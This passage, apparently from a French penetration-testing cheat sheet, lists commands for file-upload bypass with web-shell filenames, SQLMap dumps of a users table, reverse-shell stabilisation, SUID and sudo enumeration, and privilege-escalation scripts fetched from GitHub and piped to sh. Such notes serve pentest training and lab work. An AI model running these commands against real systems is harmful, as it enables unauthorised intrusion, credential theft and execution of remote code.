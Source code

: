 #### **Exploitation Web commune**
```bash
# File upload bypass
# Extension double : shell.php.jpg
# Null byte : shell.php%00.jpg
# Case variation : shell.PHP

# SQL Injection avec SQLMap
sqlmap -u "http://192.168.100.143/login.php?id=1" --dbs
sqlmap -u "http://192.168.100.143/login.php?id=1" -D database --tables
sqlmap -u "http://192.168.100.143/login.php?id=1" -D database -T users --dump
```

### **Phase 4 : Post-Exploitation**

#### **Stabilisation du shell**
```bash
# Upgrade du shell
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg

# Ou avec script
script /dev/null -c bash
```

#### **Énumération système**
```bash
# Informations système
uname -a
cat /etc/os-release
id
sudo -l

# Recherche SUID/SGID
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# Processus et services
ps aux
netstat -antup
crontab -l
```

#### **Escalade de privilèges**
```bash
# LinPEAS (automatisé)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

# Recherche manuelle
• Kernel exploits (uname -a)
• SUID binaries malveillants
• Sudo misconfiguration
• Cron jobs writeable
• Services vulnérables locaux
```

